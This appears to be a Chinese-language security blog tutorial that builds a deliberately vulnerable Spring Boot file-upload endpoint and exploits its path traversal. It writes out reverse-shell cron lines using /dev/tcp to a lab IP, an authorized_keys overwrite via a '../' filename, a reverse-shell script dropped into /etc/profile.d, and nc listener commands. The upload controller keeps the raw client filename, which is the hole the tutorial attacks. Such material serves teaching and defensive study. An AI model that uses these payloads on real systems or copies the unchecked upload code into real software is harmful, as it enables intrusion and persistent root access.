# SpringBoot 框架文件上传的 Trick

## 前言

Spring Boot 是一款基于 Spring 框架的快速开发 Web 应用的工具。它提供了很多功能强大的框架和引擎，如 Thymeleaf、Freemarker、Mustache 等，能够帮助开发者高效、便捷地实现各种需求。与其它框架不同的是，Spring Boot 应用程序默认不解析 JSP 页面。而且 tomcat 中间件大多数都是嵌入在 jar 里面的。虽然这导致在灵活性和可扩展性方面具有优势，但如果没有适当的措施来处理上传文件的内容，就会给恶意用户提供机会，利用此漏洞获取系统权限，甚至造成数据泄露等严重后果。

## demo 分析

### 创建一个 springboot 项目

创建一个工程



  




创建 Java 文件夹



  

### 配置 springboot

配置 pom.xml

放在 里面

```plain
<!-- 继承父包 -->
  <parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.0.7.RELEASE</version>
  </parent>

  <dependencies>
    <!-- web 启动 jar -->
    <dependency>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter-web</artifactId>
    </dependency>

    <dependency>
      <groupId>org.projectlombok</groupId>
      <artifactId>lombok</artifactId>
      <version>1.18.6</version>
      <scope>provided</scope>
    </dependency>
 </dependencies>
```

放在里面

```plain
    <resources>
      <resource>
        <directory>src/main/resources</directory>
        <includes>
          <include>**/*.*</include>
        </includes>
        <filtering>true</filtering>
      </resource>
    </resources>
```

完整的 pom.xml

```plain
<?xml version="1.0" encoding="UTF-8"?>

<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>org.example</groupId>
  <artifactId>FileUploadHazards</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>war</packaging>

  

  <name>FileUploadHazards Maven Webapp</name>
  <!-- FIXME change it to the project's website -->
  <url>http://www.example.com</url>

  <properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <maven.compiler.source>1.7</maven.compiler.source>
    <maven.compiler.target>1.7</maven.compiler.target>
  </properties>


  <!-- 继承父包 -->
  <parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.0.7.RELEASE</version>
  </parent>

  <dependencies>
    <!-- web 启动 jar -->
    <dependency>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter-web</artifactId>
    </dependency>

    <dependency>
      <groupId>org.projectlombok</groupId>
      <artifactId>lombok</artifactId>
      <version>1.18.6</version>
      <scope>provided</scope>
    </dependency>

    <dependency>
      <groupId>junit</groupId>
      <artifactId>junit</artifactId>
      <version>4.11</version>
      <scope>test</scope>
    </dependency>
  </dependencies>

  <build>
    <finalName>FileUploadHazards</finalName>
    <pluginManagement><!-- lock down plugins versions to avoid using Maven defaults (may be moved to parent pom) -->
      <plugins>
        <plugin>
          <artifactId>maven-clean-plugin</artifactId>
          <version>3.1.0</version>
        </plugin>
        <!-- see http://maven.apache.org/ref/current/maven-core/default-bindings.html#Plugin_bindings_for_war_packaging -->
        <plugin>
          <artifactId>maven-resources-plugin</artifactId>
          <version>3.0.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-compiler-plugin</artifactId>
          <version>3.8.0</version>
        </plugin>
        <plugin>
          <artifactId>maven-surefire-plugin</artifactId>
          <version>2.22.1</version>
        </plugin>
        <plugin>
          <artifactId>maven-war-plugin</artifactId>
          <version>3.2.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-install-plugin</artifactId>
          <version>2.5.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-deploy-plugin</artifactId>
          <version>2.8.2</version>
        </plugin>
      </plugins>
    </pluginManagement>

    <resources>
      <resource>
        <directory>src/main/resources</directory>
        <includes>
          <include>**/*.*</include>
        </includes>
        <filtering>true</filtering>
      </resource>
    </resources>
  </build>
</project>
```

创建一个文件，命名为 application.yml，放在 resources(原本没有，需要创建)

```plain
server:
  port: 8091
```

创建一个包，然后在里面创建一个 Controller

```plain
package com.garck3h.controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;

/**
 * Created by IntelliJ IDEA.
 *
 * @Author: Garck3h
 * @Date: 2023/6/2
 * @Time: 21:28
 * Life is endless, and there is no end to it.
 **/
@Controller
@RequestMapping("/upload")
public class FileUploadHandler {
    @GetMapping("/index")
    public void upload(){
        System.out.println("index...");
    }
}
```



  

创建一个启动类 Application 进行测试，注意启动类是放在 controller 的上一层

```plain
package com.garck3h;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

/**
 * Created by IntelliJ IDEA.
 *
 * @Author: Garck3h
 * @Date: 2023/6/2
 * @Time: 21:31
 * Life is endless, and there is no end to it.
 **/
@SpringBootApplication
public class Application {
    public static void main(String[] args) {
        SpringApplication.run(Application.class,args);
    }
}

```


  

访问测试，成功打印了 index... ；说明我们的项目没有问题了


  

### 文件上传的 demo

这里写一个 REST 风格的控制器

```plain
package com.garck3h.controller;

import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.multipart.MultipartFile;

import java.io.File;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

/**
 * Created by IntelliJ IDEA.
 *
 * @Author: Garck3h
 * @Date: 2023/6/2
 * @Time: 21:56
 * Life is endless, and there is no end to it.
 **/
@RestController
public class FileUploadController {

    @PostMapping("/upload")
    public String uploadFile(@RequestParam("file") MultipartFile file) {

        if (file.isEmpty()) {
            return "文件为空！";
        }

        try {
            // 获取项目资源路径
            String resourcePath = System.getProperty("user.dir");

            // 定义存储文件的目录路径和文件全名
            String folderPath = resourcePath + File.separator + "data" + File.separator + "upload" + File.separator;
            String fileName = file.getOriginalFilename();
            System.out.println("folderPath1："+folderPath);

            // 若文件夹不存在，则创建文件夹
            File folderDir = new File(folderPath);
            if (!folderDir.exists()) {
                //使用 mkdirs 可以创建多级目录，mkdir 只能创建一级目录
                folderDir.mkdirs();
            }

            // 将上传的文件写入磁盘
            byte[] bytes = file.getBytes();
            Path path = Paths.get(folderPath + fileName);
            Files.write(path, bytes);

            return "文件上传成功!\n"+ "路径："+ path;
        } catch (IOException e) {
            e.printStackTrace();
            return "文件上传失败！";
        }
    }
}
```

前端的 upload.html 放在 webapp 目录中

upload.html

```plain
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>File Upload</title>
</head>
<body>
<div>
    <form action="/upload" method="POST" enctype="multipart/form-data">
        <label for="file">选择文件:</label>
        <input type="file" name="file" id="file"><br><br>
        <button type="submit">Upload</button>
    </form>
</div>
</body>
</html>
```

访问 ip:port/upload.html；进行文件上传



  

上传成功


  

### 打包为 jar 部署到 Linux

修改一下 pom.xml

```plain
   
<!-- 修改一： -->
<packaging>jar</packaging>

<!-- 修改二：   -->
 <plugins>
      <!-- 保留 jar 插件 -->
      <plugin>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-maven-plugin</artifactId>
      </plugin>
    </plugins>
```

打包



  

把 FileUploadHazards.jar 上传到 Linux 的/tmp 进行启动。



  

由于我们这里没有 tomcat 了，所以没办法访问 upload.html 来进行文件上传。但我们可以通过 burp 发包访问接口来上传。


  

查看服务器成功看到了我们上传的 123.jpg



  

### 利用../指定文件存储目录

尝试通过../来把我们上传的文件放到上一层目录，也就是我们的/tmp/data 目录下。下图可见成功控制存储到了上一层目录



  

## 利用姿势一 (定时任务)

由于 crond 守护进程在后台静默地检查 /etc/crontab 文件和/var/spool/cron 及 /etc/cron.d/目录。

定时任务的路径有

```plain
/var/spool/cron/root   #文件要以用户名称存在
/etc/cron.d            #这里的文件（任意名称和后缀），也会被轮询加载执行
/etc/cron.daily/       #下面的任务都是每天6:25 执行
/etc/cron.weekly/      #下面的任务都是每周日 6:47 执行
/etc/cron.monthly/     #下面的任务都是每月1号 6:52 执行
```

用法

```plain
0    12   *   *   *   echo rce >> /tmp/hello
#分  时   日   月  周  |《==============命令行=======================》|
```

查看 crond 的运行状态

```plain
service crond status
```



  

### 利用路径一

条件：

-   目标服务器的 cron 正常运行
    
-   上传路径可以控制
    
-   可以上传任意后缀文件，因为这里需要上传 root 命名的文件
    

上传到：/var/spool/cron/ （需要有读写的权限）

nc 监听

```plain
nc -lvnp 7799  #直接监听
nc -lvnp 7799 -s 192.168.88.133 #指定 IP 监听
```

上传文件到  /var/spool/cron/root 中。(centos 系列主机)

上传文件到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu 系列主机)

```plain
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/192.168.88.133/7799 0>&1
```

上传的文件名需为用户名称，如：root、test 等用户


  

这里踩了个坑，因为我攻击机是 win，然后目标是 Linux，换行会涉及到一些编码的问题，直到我在 notepad++ 上转为 Unix 之后才能成功。


  

成功反弹 shell



  

### 利用路径二

条件

-   目标服务器的 crond 正常运行
    
-   上传路径可以控制
    
-   对/etc/cron.d 目录有写入权限即可，后缀名不限
    

因为在/etc/cron.d 这个目录下，任意后缀的文件都可以执行，我们创建一个每分钟执行一次的定时任务；并且把结果输出到/tmp 下的 haha 文件中（注意这里要添加一个用户名）

```plain
*/1  *  *  *  *   root /bin/bash -i>&/dev/tcp/192.168.88.133/7799 0>&1
```

首先我们确认/var/spool/cron 下是没有任何文件的



  

burp 上传


  

nc 进行监听

```plain
nc -lvnp 7799  #直接监听
```

成功反弹 shell



  

## 利用姿势二（替换公钥）

利用条件：

-   上传路径可以控制
    
-   对文件名无限制
    
-   目标开启 ssh 端口
    
-   支持密钥登录
    

### 生成公私钥

使用 ssh-keygen 生成公钥和私钥

ssh-keygen -t "加密方式" -C“描述”

```plain
ssh-keygen -t rsa
```

三次回车即可



  

安装公钥

```plain
cd /root/.ssh
cat id_rsa.pub >> authorized_keys
```



  

更改权限

authorized\_keys 需要 600

.ssh 需要 700

```plain
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

### 开启公钥登录

```plain
vim /etc/ssh/sshd_config
PubkeyAuthentication no 改为 yes
```


  

重启 ssh 服务

```plain
systemctl restart sshd.service
```

### 攻击者生成公钥

使用 ssh-keygen 生成公钥和私钥

```plain
ssh-keygen -t rsa
```


  

把生成的 id\_rsa.pub 上传到目标服务器

```plain
/../../../../../../../root/.ssh/authorized_keys
```



  

在攻击者的机器上使用公钥成功连接目标

```plain
ssh root@192.168.88.104 -p 22
```



  

## 利用姿势三（终端自启动）

条件：

-   路径可以控制
    
-   .sh 后缀未被禁止
    
-   对/etc/profile 目录有写权限
    

打开 profile 文件分析得知，用户打开 bash 窗口就会执行/etc/profile.d 目录下所有.sh 文件



  

上传一个 rce.sh 后缀的文件到目标的/etc/profile.d 目录下，其 rce.sh 的内容为反弹 shell 的内容



  

nc 进行监听

```plain
nc -lvnp 7799  #直接监听
```

模拟管理员登录目标终端，成功在 nc 上接收到了 shell

